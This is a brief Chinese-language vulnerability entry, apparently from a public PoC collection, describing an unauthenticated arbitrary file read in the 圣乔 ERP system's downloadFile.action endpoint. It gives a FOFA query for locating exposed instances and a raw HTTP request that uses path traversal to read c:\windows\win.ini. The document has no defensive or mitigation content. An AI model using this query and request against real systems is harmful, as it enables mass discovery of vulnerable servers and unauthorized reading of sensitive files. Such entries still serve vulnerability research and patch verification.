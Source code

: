 # 圣乔ERP系统downloadFile.action任意文件读取漏洞

圣乔ERP系统 downloadFile.action 存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件。

## fofa
```javascript
app="圣乔-ERP系统"
```

## poc
```javascript
GET /erp/wap/../downloadFile.action?absolutePath=true&file=c:\\windows\win.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20241219152120711](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412191521762.png)